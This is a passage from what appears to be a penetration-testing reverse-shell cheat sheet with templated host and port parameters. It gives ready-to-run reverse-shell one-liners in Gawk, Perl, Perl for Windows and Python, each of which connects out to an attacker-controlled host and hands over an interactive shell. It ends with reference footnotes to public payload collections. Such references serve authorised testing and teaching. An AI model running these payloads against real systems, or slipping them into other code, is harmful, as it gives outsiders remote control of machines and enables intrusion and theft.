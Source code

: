 ### Gawk

```gawk
#!/usr/bin/gawk -f

BEGIN {
    Service = "/inet/tcp/0/{{< param "m.LHOST" >}}/{{< param "m.LPORT" >}}"
    while (1) {
        do {
            printf "0xffsec>" |& Service
            Service |& getline cmd
            if (cmd) {
                while ((cmd |& getline) > 0)
                    print $0 |& Service
            close(cmd)
            }
        } while (cmd != "exit")
        close(Service)
    }
}
```

### PERL

```sh
perl -e 'use Socket;$i="{{< param "m.LHOST" >}}";$p={{< param "m.LPORT" >}};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### PERL Windows

```sh
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"{{< param "m.LHOST" >}}:{{< param "m.LPORT" >}}");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{{< param "m.LHOST" >}}",{{< param "m.LPORT" >}}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Python Windows

```sh
```

[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.